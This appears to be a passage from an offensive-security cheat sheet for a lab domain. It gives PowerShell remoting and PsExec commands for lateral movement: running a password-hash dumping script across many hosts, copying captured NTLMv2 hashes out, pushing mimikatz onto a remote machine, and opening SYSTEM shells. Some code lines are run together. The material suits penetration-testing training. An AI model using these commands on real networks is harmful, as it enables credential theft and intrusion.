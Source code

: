 or to start a new session:

```powershell
$Sess = New-PSSession -Computername "COMPUTER1" -Credential $credentialInvoke-Command -Session $sess -ScriptBlock {whoami}
```

Use below to execute scripts from files:

```powershell
Invoke-Command -FilePath "C:\scripts\Get-PassHashes.ps1" -ComputerName (Get-Content ".\list_of_computers.txt")
```

Use below to execute locally loaded function on the remote machines:

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content ".\list_of_computers.txt")
```

In this case, we are passing Arguments. Keep in mind that only positional arguments could be passed this way:

```powershell
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content ".\list_of_computers.txt") -ArgumentList
```

Execute “Stateful” commands using Invoke-Command:

```powershell
$Sess = New-PSSession -Computername "COMPUTER1"Invoke-Command -Session $Sess -ScriptBlock {$Proc = GetProcess}Invoke-Command -Session $Sess -ScriptBlock {$Proc.Name}
```

Copy files between PSRemoting sessions:

```powershell
$Sess = New-PSSession -Computername "COMPUTER1"
Copy-Item -Path C:\Users\Public\Inveigh-NTLMv2.txt -Destination C:\Users\user01\Desktop\ -FromSession $sess
Copy-Item -Path C:\Users\user01\Desktop\mimikatz.exe -Destination C:\Users\Public\ -ToSession $sess
```

## PsExec

Launch a shell on the local machine as DIFFERENT user:

```powershell
psexec.exe -u "CYBERLAB\student1" -p "Password123." -i -d cmd.exe
psexec.exe -u "CYBERLAB\student1" -p "Password123." -i -d powershell.exe
```

Launch a SYSTEM shell on the local machine:

```powershell
psexec.exe -s -i -d cmd.exe
psexec.exe -s -i -d powershell.exe
```
